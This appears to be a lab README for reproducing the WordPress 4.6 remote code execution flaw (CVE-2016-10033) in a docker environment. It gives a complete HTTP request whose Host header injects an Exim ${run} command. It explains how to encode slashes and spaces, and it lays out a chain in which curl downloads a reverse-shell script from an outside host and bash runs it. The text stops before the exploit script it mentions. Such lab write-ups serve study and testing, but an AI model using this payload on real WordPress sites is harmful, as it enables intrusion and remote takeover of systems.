

Wordpress 4.6 Remote Code Execution Vulnerability (PwnScriptum)¶
Reference link¶
https://exploitbox.io/vuln/WordPress-Exploit-4-6-RCE-CODE-EXEC-CVE-2016-10033.html
Environment setup¶
docker compose build
docker compose up -d
Because Mysql initialization needs a little time, so please wait. After initialization succeeds, visit http://your-ip:8080/, set the administrator username and password to use it (the database is configured and not automatically updated).
Exploit¶
Send the following packet, and you can see that /tmp/success has been successfully created:
POST /wp-login.php?action=lostpassword HTTP/1.1
Host: target(any -froot@localhost -be ${run{${substr{0}{1}{$spool_directory}}bin${substr{0}{1}{$spool_directory}}touch${substr{10}{1}{$tod_log}}${substr{0}{1}{$spool_directory}}tmp${substr{0}{1}{$spool_directory}}success}} null)
Connection: close
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Accept: */*
Content-Length: 56
Content-Type: application/x-www-form-urlencoded
wp-submit=Get+New+Password&redirect_to=&user_login=admin
We need to meet the following requirements to exploit this vulnerability:
- The executed command cannot contain some special characters, such as
:,',", etc. - The command will be converted to lowercase letters
- The command needs to use an absolute path
- Need know an existing user username
In order to solve these problems, the vulnerability author came up with ${substr{0}{1}{$spool_directory}} instead of /, using ${substr{10}{1}{$tod_log}} method of replacing spaces.
However, there are still a lot of characters can't be used. So we need to put the command on the third-party website, and then download it to /tmp directory by curl -o /tmp/rce example.com/shell.sh.
Therefore, the expliot process is follows:
- Write the exp of reverse shell and put it on a site. The exp have this following requirements:
- the entire url's uppercase letters will be converted to lowercase, so the file path should not contain uppercase letters.
- Access to this page can't be redirected because the parameter for follow redirect is
-L(uppercase). - Splice the command
/usr/bin/curl -o/tmp/rce example.com/shell.shand/bin/bash /tmp/rce. - Convert the spaces and
/in the command to${substr{10}{1}{$tod_log}}and${substr{0}{1}{$spool_directory}}. - Produce the HTTP Host header:
target(any -froot@localhost -be ${run{command}} null). - Send these two packets in order.
Here is expliot.py，change target to your target site，change user to an exist user name，change shell_url to your payload site.
Execute to get the shell:
